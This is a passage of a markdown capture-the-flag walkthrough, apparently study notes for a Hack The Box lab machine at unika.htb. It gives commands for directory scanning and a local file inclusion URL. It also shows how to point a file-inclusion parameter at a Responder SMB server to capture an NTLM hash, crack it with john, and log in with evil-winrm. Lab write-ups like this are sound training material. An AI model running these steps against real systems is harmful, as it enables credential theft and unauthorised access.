 2. Check directories: `gobuster dir -u TARGET_IP -w /user/share/wordlists/dirb/common.txt`

   ![image-20220807173447614](../assets/img/htb-starting-point/3.png)

3. Append the domain name resolve with the ip in `/etc/hosts`, to access the webpage

   `echo "TARGET_IP unika.htb" | sudo tee -a /etc/hosts`

   > hosts檔案是一個用於儲存電腦網路中各節點資訊的電腦檔案。這個檔案負責將主機名對映到相應的IP位址。hosts檔案通常用於補充或取代網路中DNS的功能。和DNS不同的是，電腦的使用者可以直接對hosts檔案進行控制。

4. After accessing the page, we notice that the URL parameter **page** is vulenarble for local file inclusion, some wordlist example: https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

   `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`

   <img src="C:\Me\Github\CPS-Study-Club\cyber-security\assets\img\htb-starting-point\4.png" style="zoom: 80%;" />

5. Check whether the Responder is configured to listen **SMB**, then run responder on the `tun0` interface, use **python3.9** as **python3.10** does not work

   `python3.9 /usr/share/responder/Responder.py -I tun0`

   > config file is located at /usr/share/responder/Responder.conf

8. Tell the server to include a resource from our Responder SMB server by typing the URL

   `http://unika.htb/?page=//{responder_server_ip}/somefile`

8. There would be a hash response to us

   ![image-20220822152933462](../assets/img/htb-starting-point/5.png)

8. Put the hash into a file `hash.txt` and use `john` to crack it with worldlist

   `john -w=/usr/share/wordlists/rockyou.txt hash.txt`

   ![image-20220822153552914](../assets/img/htb-starting-point/6.png)

8. As we know that WinRM service is running, we can use **evil-winrm** to get a session to run the **Powershell** of the remote host

   `evil-winrm -i {TARGET_IP} -u administrator -p badminton`

8. the flag is in `C:\Users\mike\Desktop\flag.txt`, use `type` (PowerShell command ) to print the flag out

# 1.5 Three

1. Run a `nmap` scan: 

   ```shell
   nmap -sV TARGET_IP
   ```

   ![image-20220822153552914](../assets/img/htb-starting-point/7.png)
